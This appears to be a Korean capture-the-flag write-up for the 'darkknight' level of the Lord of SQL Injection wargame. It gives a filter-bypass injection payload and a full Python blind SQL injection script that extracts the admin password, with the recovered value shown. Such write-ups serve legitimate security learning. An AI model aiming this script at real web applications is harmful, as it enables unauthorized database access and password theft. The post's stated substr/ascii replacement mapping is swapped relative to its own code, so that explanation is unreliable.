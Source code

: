 ```yaml
---
title: LOS - 12번 darkknight
category: Lord of SQL Injection
---
```


# [12] darkknight

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdN85X8%2Fbtrno40RWs3%2FkoWsihFtPt3Lhk7ku1KN51%2Fimg.png">

## 풀이

필터링 사항은 다음과 같다.


① 싱글쿼터

② substr

③ ascii

④ =


<br>

**substr/ascii 필터링 우회 방법**은 다음과 같다.
 

① substr ⇒ ord

② ascii ⇒ mid

<br> 

또한, 이전 문제와 마찬가지로 admin의 pw를 알아야 풀 수 있는 **Blind SQLi** 문제이다.

기존에 사용했던 자동화 코드에 새로운 필터링 사항을 적용해주면 될 것 같다.

<br> 

다만, 이전과는 달리 파라미터가 두개이므로 (pw, no) 서버측 쿼리문을 잠시 살펴보겠다.

<br> 

준비된 쿼리문은 다음과 같다.

```php
$query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
```

<br>

위 쿼리문을 아래와 같이 변조해줄 것이다.

```php
$query = "select id from prob_darkknight where (id='guest' and pw='' and no=0) or id like \"admin\" %26%26 [pw 길이 확인 또는 pw 추출] %23";
```

① id부터 no까지를 하나의 중첩된 and 조건절로 묶어준다.

- 어차피 FALSE로 만드는 것이 목표이기 때문에 pw는 비워두고 no에는 아무 숫자나 할당해준다.

② \|\| id like "admin" && 뒤에 적절한 조건절을 삽입하여 pw 길이 확인 또는 pw 추출을 수행해준다.

 
<br>
 

이상의 내용을 반영하여 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.

```python
def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0 || id like \"admin\" %26%26 length(pw)>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```

① = ⇒ like (문자열 일치 확인)

② = ⇒ > (ASCII 대소 비교)

- 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

```python
def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0 || id like \"admin\" %26%26 ord(mid(pw,{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```

① substr ⇒ ord

② ascii ⇒ mid

 
<br>
 

**수정된 Python 자동화 코드**의 전문은 다음과 같다.

```python
import requests

def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0 || id like \"admin\" %26%26 length(pw)>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0 || id like \"admin\" %26%26 ord(mid(pw,{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    
    length=check_length(url, cookie)
    print(f"👏 pw의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, length)
    print(f"👏 pw의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcWiNuI%2FbtrnlqwCc4k%2FHvtf8sJOMAnp84BYeqr9kk%2Fimg.png">

Blind 공격 결과, admin의 pw는 `0b70ea1f` 임을 알 수 있다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlILVk%2FbtrnjDiSeOV%2FU0OL6DlmSD1nVNdLKX3m8k%2Fimg.png">